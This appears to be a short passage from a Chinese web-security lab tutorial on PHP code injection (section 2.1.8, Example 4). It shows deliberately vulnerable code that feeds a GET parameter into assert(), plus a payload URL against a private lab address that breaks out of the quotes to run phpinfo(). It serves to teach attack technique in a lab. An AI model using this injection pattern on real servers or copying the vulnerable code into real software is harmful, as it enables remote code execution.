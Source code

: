 [![](assets/1704850598-e315f75a58d5239f0ee9bb06e9a7b03c.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/IOFYm2EysZgPM2jG.png)

### 2.1.8 Code injection Example 4

仅去除收尾的空白字符，进行闭合即可

```plain
assert(trim("'".$_GET['name']."'"));
echo "Hello ".htmlentities($_GET['name']);
```

[http://192.168.245.131/codeexec/example4.php?name=%27.phpinfo();//](http://192.168.245.131/codeexec/example4.php?name=%27.phpinfo();//)  